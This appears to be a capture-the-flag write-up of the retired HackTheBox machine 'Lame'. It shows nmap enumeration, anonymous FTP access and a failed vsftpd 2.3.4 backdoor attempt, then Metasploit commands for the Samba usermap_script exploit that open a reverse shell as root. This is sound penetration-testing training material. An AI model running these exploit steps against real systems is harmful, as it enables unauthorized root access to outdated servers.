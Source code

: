 ```yaml
---
title: Lame
date: 2023-01-19 03:33:00 -5000
categories: [OSCP Prep,HTB Linux Retired]
tags: [Network,Outdated Software, Security Tools, Remote Code Execution, SAMBA, Common Services]
---
```

# Lame
![Lame.png](/Assets/Pictures/Lame.png)
This is a retired box from [HackTheBox(HTB)](https://app.hackthebox.com/machines/Lame/). Being part of TJnull's list for OSCP Preparation. I had to tackle it.

# Intelligence Gathering

Let’s look at open ports.

```bash
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```

let’s get the service version and run some default nmap script of these open ports.

```bash
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OS: Unix

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 59488/tcp): CLEAN (Timeout)
|   Check 2 (port 31947/tcp): CLEAN (Timeout)
|   Check 3 (port 15886/udp): CLEAN (Timeout)
|   Check 4 (port 40169/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
```

# Enumeration

## FTP Enumeration

With FTP, there is a way to log in with default credentials `anonymous:anonymous`. As shown below, these creds gave us access to the victim’s FTP server.

```bash
➜  ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:retr0x01): anonymous
331 Please specify the password.
Password: **anonumous(Not shown on the screen)**
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Although we logged in, we were not able to find anything on the FTP server.

Let’s find the vulnerability belonging to the version of the service we found earlier.  After some googling we found the exploit for this version of FTP.

```bash
➜  searchsploit vsftp
--------------------------------------------------------------------------------- ------------------------------
 Exploit Title                                                                    |  Path
--------------------------------------------------------------------------------- ------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                    | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                    | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                    | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                  | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                         | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                            | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                           | multiple/remote/49719.py
--------------------------------------------------------------------------------- ------------------------------
```

We have two ways to exploit this vulnerability. Let’s get it in our host and exploit it.

```bash
➜  searchsploit vsftp -m 49757
[!] Could not find EDB-ID #

  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /snap/searchsploit/62/opt/exploitdb/exploits/unix/remote/49757.py
    Codes: CVE-2011-2523
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/Lame/Exploitation/vsftpd_2.3.4_Exploit/49757.py
```

The exploit did not seem to work manually. Let’s go with the automated way, using the metasploit framework (MSF).

```bash
#Firstly, we search for the exploit on msf
msf6 > search vsftp
#Secondly, we use the exploit
msf6 > use 0
#Third, we check the options needed to run the exploit
msf6 > show options
#Fourth, we set the needed arguments
msf6 > set rhosts 10.10.10.3
#Finally we run the exploit
msf6 > exploit
```

After waiting for some time, the exploit did not run successfully as shown here.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

let’s carry on and try another service enumeration.

## SMB Enumeration

SMB or Samba, is also known to be easy to enumerate. Let’s start our enumeration on this service.
First let’s see what kind of share we have on this SMB server using smbmap.

```bash
➜  smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

As we can see using smbmap, we can check different shares and also we can know the permission we have for all the shares. From what we can see here, we have read and write access on the `/tmp` share. Let’s enumerate that share. using the regular anonymous method to  enumerate the Samba server did not get us anywhere. After some googling, we found [this](https://amolblog.com/139-tcp-open-netbios-ssn-samba-smbd-3-x-4-x/) article and it helped us exploit the vulnerability of these SMB versions.

# User & Privesc

This was lame for a reason, because this vulnerability gives root access right off the bat. So no need to gain user first and try to escalate privileges. Just getting in with super user privileges.

```bash
#Firstly, we search for the exploit on msf
msf6 > search samba 3
#Secondly, we use the exploit
msf6 > use exploit/multi/samba/usermap_script
#Third, we check the options needed to run the exploit
msf6 > show options
#Fourth, we set the remote host
msf6 > set rhosts 10.10.10.3
#Fifth, we set our local interface or address
msf6 > set lhost tun0
#Finally, run the exploit
msf6 > exploit
#Results
msf6 exploit(multi/samba/usermap_script) > exploit 

[*] Started reverse TCP handler on 10.10.16.8:4444 
[*] Command shell session 1 opened (10.10.16.8:4444 -> 10.10.10.3:55027) at 2023-01-19 03:17:00 -0600

whoami
root
pwd
/
```

The box is done, Since we have the higher privilege there is nothing else to do at this point expect navigate and get the differents flag. It was lame because of the rabbit hole and the exploitation. But a great box overall.

Thanks for reading me, enjoy !